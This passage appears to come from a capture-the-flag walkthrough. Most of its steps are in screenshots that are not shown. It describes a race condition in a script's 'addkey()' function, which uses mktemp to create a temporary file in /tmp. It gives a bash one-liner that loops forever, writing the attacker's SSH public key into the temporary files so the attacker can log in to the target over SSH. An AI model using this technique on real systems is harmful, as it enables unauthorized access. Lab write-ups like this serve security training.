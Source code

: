 <img src="https://imgur.com/PHw2PuG.png"/>

We can see a function `addkey()` in which a temporary file is being made with command `mktemp`

<img src="https://imgur.com/FeDoFlb.png"/>

If we run this command on our local machine to see what file name it generates we can see that the file name it's pretty unique everytime this command runs 

<img src="https://imgur.com/i58Yvuk.png"/>

On the target machine it also generates a random name

<img src="https://imgur.com/P0CcQis.png"/>


In the script that file is being removed but that's the file need to put in our ssh public key so we need to run a loop in which we try to put our public key in every file that starts with `ssh` so we have to utilize wildcard here ( * )


So our one liner script should look like this

```bash
while true; do var=$(ls /tmp |grep ssh);echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCzKK/Hru6t4lA0tu4CX8E3BzkM8Bl7cFxyheVBHZS+flyqq
/sZuRfPHCQE2LNL5IgRfHDljFO4MuiYJgrMr8jCA+stDBxGAhCiRZ4UmZ7OYn1abGGOmtUyaCYvJp3pizvcyVIJsNBQBSk1JETfopgKCydtXfbXYF8kukjM29AVbIoD99UAmo8Qm1RDv+cguO+0q
Tg1vHMErURIyM/P3fhNakGL2F1/rENpvqB7EK06N6KYLujCf9Y87slTCU33gHoo5iG5mX5JFi2pBhWJnOQECjaeEsTjvKKvgIX7wy14b3I4b7fLstsXg69CCE9KF5Zr1uWYP0JGG1pB0OrDH4LPj
MRxDALCKMnA4F8OrSmTzfgWJ9LhxxFHh73ExsfGJYypBuSOxh+4UBSuF5znPbJo315Qd05LEcpCAv623vqjsUDQUEMeJVz0NiWkGCuJIxt+YTGinB9hDj58seHsI4yMZe5HtY5cQJLR09/fVoGPi
ebD/lFk68jQFonJs73NlPE= root@kali' | tee $var ;done
```

We are running a while loop infinite number of times and in there we have a variable which is grabbing the name of the random generated ssh file , next we are printing our public ssh key and piping it to that file and logging it with the help of `tee`

So first I will run the `enableSSH` script 

<img src="https://imgur.com/eBO3wUh.png"/>

Then will run my one liner bash script

<img src="https://imgur.com/D1QqNcr.png"/>

<img src="https://imgur.com/7GYp5XO.png"/>

After running it for some time and terminated both the scripts and in the `/tmp` folder you will see those  randomly generated ssh file , some of them will have no content as the temp file gets deleted.

<img src='https://imgur.com/xmwmftp.png'/>

Try to ssh in the target machine using ssh private key

<img src="https://imgur.com/LEojPH6.png"/>